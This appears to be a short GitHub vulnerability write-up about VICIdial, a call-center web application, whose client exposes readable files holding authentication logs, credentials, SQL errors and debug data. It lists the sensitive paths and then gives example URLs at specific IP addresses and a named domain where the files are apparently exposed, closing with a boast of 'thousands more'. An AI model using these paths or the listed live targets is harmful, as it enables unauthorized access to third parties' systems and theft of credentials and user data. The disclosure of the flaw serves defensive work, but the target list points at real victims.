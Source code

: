 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt

## Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt
http://172.104.24.101/vicidial/agent_reports/
http://172.104.24.101/agc/vicidial_mysqli_errors.txt
http://172.104.24.101/agc/vicidial_debug.txt
http://172.104.24.101/agc/vicidial_auth_entries.txt

http://35.156.102.118/vicidial/project_auth_entries.txt
http://35.156.102.118/vicidial/agent_reports/
http://35.156.102.118/vicidial/closer_SQL_updates.txt
http://35.156.102.118/agc/vicidial_mysqli_errors.txt
http://35.156.102.118/agc/vicidial_debug.txt
http://35.156.102.118/agc/vicidial_auth_entries.txt

https://callsrevenue.com/vicidial/project_auth_entries.txt
https://callsrevenue.com/agc/vicidial_mysqli_errors.txt
https://callsrevenue.com/agc/vicidial_debug.txt
https://callsrevenue.com/agc/vicidial_auth_entries.txt

http://69.60.110.115/vicidial/agent_reports/
http://69.60.110.115/vicidial/closer_SQL_updates.txt
http://69.60.110.115/agc/vicidial_mysqli_errors.txt
http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

